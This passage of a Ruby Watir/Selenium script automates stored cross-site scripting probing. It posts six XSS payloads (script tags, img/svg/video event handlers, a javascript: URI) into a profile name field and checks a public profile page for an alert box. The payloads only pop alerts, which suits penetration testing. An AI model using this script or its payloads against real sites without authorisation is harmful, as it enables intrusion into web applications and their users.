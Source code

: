```ruby
    @browser.text_field(id: 'txtFirstName').set(payload)                        # Set payload to the text area
    @browser.button(name: '$actionsElem$save').click                            # Click Save button

  rescue Selenium::WebDriver::Error::UnhandledAlertError
    @browser.refresh                            # Refresh the current page
    @wait.until {@browser.alert.exists?}        # Check if alert box appear
  end
end

payloads =
  [
    "\"><video src=x onerror=alert(1);>",
    "<img src=x onerror='alert(2)'>",
    "<script>alert(3)</script>",
    "<svg/OnlOad=prompt(4)>",
    "javascript:alert(5)",
    "alert(/6/.source)"
  ]

puts "[*] Exploitation start"
puts "[*] Number of payloads: #{payloads.size} payloads"

@browser.send_keys(:control, 't')                               # Sent Ctrl+T to open new tab
@browser.goto "http://example.com/pub_prof/user/silver.aspx"    # Goto the use's public profile
@browser.switch                                                 # Make sure to focus on current tab/window

payloads.each do |payload|

  @browser.send_keys(:alt, '1')                                     # Send Alt+1 to go to first tab
  sendpost payload
  puts "[*] Sending to '#{@browser.title}' Payload : #{payload}"
  @browser.send_keys(:alt, '2')                                     # Send Alt+2 to go to second tab
  @browser.switch
  @browser.refresh
  puts "[*] Checking Payload Result on #{@browser.title}"

  if @browser.alert.exists?
    @browser.alert.ok
    puts
    puts "[+] Exploit found!: " + payload
    @browser.close
    exit 0
  end

end

@browser.close
puts
```
